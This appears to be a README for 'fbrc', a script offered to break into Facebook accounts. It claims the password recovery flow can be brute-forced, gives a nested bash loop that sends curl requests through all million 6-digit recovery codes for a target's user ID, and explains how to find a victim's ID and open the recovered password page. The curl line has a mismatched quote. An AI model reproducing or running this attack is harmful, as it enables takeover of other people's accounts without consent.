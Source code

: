 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

- access to facebook
- target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

`for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n |grep password_new; done; done; done; done; done; done`

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.

This curl script will output something only when the code is found, you'll find the code somewhere in the console, just go to the recovery link using the ID and code in a browser.
